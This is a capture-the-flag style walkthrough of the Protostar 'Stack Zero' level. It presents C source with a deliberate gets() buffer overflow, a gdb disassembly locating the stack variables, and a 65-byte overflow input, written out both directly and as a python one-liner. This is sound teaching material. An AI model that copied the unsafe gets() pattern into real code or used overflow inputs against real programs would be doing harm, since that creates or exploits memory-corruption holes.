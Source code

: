 # Stack Zero

> This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

* As we can see a `modified` variable is initialized which has the qualifier `volatile` is created. The `volatile` qualifier tells the compiler to not optimize the usage of the variable as it can be changed at any time.
* Afterwards, a buffer of 64 bytes is created.
* The variable is later initialized to `0`.
* The `gets` system call is used to read user input into the buffer. This syscall is infamous for it's bugs.
* Let's look at the manual page.

```
 BUGS     

       Never use gets(). Because it is impossible to tell without
       knowing the data in advance how many characters gets() will read,
       and because gets() will continue to store characters past the end
       of the buffer, it is extremely dangerous to use. It has been
       used to break computer security. 
```

* So the `gets` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.
* This is the vulnerability that we have to exploit.
* But before that let's go through the rest of the code.
* There is an `if` statement which checks if the value of `modified` in not equal to zero. If it is not equal to 0, it prints out a string `else` it prompts us to try again.
* We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.
* Let's disassemble the program in `gdb`.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```

* Look at the instruction at `main+9`.

```
--snip--;
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
--snip--;
```

* We can see that the variable is located at `esp+0x5c` and is set to zero using dereferencing.
* Next, we want to locate the buffer.

```
--snip--;
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
--snip--;
```

* In 32-bit assembly the arguments for a `call` are stored onto the `stack`.
* In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.
* The distance between the location of the `modified` variable and the buffer is the following:

```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

* The variable is located right where the buffer ends.
* Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable.

### Exploit

```
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB
you have changed the 'modified' variable
```

* We can also use `python` to craft the exploit.

```
$ python -c 'print "a"*(64)+"B"' | ./stack0
you have changed the 'modified' variable
```

